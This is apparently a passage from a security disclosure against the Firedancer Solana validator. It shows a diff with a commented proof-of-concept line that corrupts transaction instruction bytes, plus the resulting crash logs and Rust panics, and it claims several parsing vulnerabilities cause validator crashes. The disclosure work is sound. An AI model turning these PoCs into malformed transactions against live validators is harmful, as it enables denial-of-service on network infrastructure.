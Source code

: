 ```shell
+       * ERR     07-29 12:40:17.541403 872403 f0   pidns src/app/fdctl/run/run.c(368): tile solana-labs:0 exited with code 1
+       */
+
+      //poc4
+      //memset(TXN(my_txn)->instr,0x41,8) ;
+      /*
+       * thread '<unnamed>' panicked at /home/ht/firedancer/solana/sdk/program/src/message/sanitized.rs:188:22:
+       * program id index is sanitized
+       * note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
+       * ERR     07-29 12:38:50.637422 871464 f17  0    metrics/src/metrics.rs(283): datapoint: panic program="validator" thread="?" one=1i message="panicked at /home/ht/firedancer/solana/sdk/program/src/message/sanitized.rs:188:22:
+       * program id index is sanitized" location="/home/ht/firedancer/solana/sdk/program/src/message/sanitized.rs:188:22" version="0.101.11817 (src:e60d9a62; feat:4215500110, client:Firedancer)"
+       * ERR     07-29 12:38:50.745302 871372 f0   pidns src/app/fdctl/run/run.c(368): tile solana-labs:0 exited with code 1
+       */
+
       fd_mux_publish( mux, sig, chunk, msg_sz+sizeof(fd_microblock_bank_trailer_t), 0UL, 0UL, tspub );
       ctx->bank_expect[ i ] = *mux->seq-1UL;
       ctx->bank_ready_at[i] = now + (long)ctx->microblock_duration_ticks;
```
Only the crash log for PoC1 is listed here. Replacing the code of PoC1 with other PoC will yield different crash reasons. We believe that there are at least three different vulnerabilities in the parsing code here that could lead to crashes. PoC3 and PoC4 will even trigger crash in rust.